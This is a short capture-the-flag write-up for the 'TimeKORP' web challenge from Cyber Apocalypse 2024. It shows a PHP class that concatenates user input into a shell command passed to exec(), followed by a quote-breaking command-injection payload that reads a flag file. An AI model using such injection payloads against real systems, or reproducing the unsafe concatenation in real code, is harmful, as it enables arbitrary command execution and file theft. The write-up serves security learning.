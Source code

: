 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | TimeKORP Writeup
desc: Check out our writeup for TimeKORP for Cyber Apocalypse 2024 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: web
challenge: TimeKORP
tags: "web, twh, rce"
date: 2024-03-16T00:00:00+00:00
last_modified_at: 2024-03-16T00:00:00+00:00
---
```



> Solved By : thewhiteh4t


- TimeModel.php is vulnerable

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

- specifically :

```
$this->command = "date '+" . $format . "' 2>&1";
```

- we just need to match single quotes and insert cat command in between so payload becomes :

```bash
';cat /flag;'
```

![](https://i.imgur.com/BhQqnTJ.png)

